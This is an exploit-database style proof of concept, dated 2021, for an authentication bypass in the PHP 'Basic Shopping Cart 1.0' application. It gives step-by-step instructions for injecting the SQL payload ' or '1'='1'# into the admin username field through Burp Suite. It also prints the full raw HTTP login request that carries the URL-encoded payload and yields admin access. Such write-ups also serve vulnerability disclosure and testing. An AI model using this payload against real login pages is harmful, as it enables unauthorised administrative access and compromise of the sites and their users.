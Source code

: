 EXP
---

    # Exploit Title: Basic Shopping Cart 1.0 - Authentication Bypass
    # Date: 2021-04-03
    # Exploit Author:  Viren Saroha (illusion)
    # Vendor Homepage: https://www.sourcecodester.com/php/10964/basic-shopping-cartphpmysql.html
    # Software Link: https://www.sourcecodester.com/download-code?nid=10964&title=Basic+Shopping+Cart+using+PHP%2FMySQL+with+Source+Code
    # Version: 1.0
    # Tested on: Windows 10/Kali Linux

    POC

    Step 1 -  Go to url http://localhost/EdgeSketch/index.php and Click on Admin
    Step 2 – Enter anything in username and password
    Step 3 – Click on Login and capture the request in burpsuite
    Step4 – Change the username to   ' or '1'='1'#
    Step 5 – Click forward and now you will be logged in as admin.

    REQUEST

    POST /EdgeSketch/adminlogin.php HTTP/1.1
    Host: localhost
    Content-Length: 77
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://localhost
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
    (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
    Accept:
    text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://localhost/EdgeSketch/index.php
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: PHPSESSID=6b7072bb40c321cb336aacef057a0876
    Connection: close

    admin_username=%27+or+%271%27%3D%271%27%23&admin_password=random&admin_login=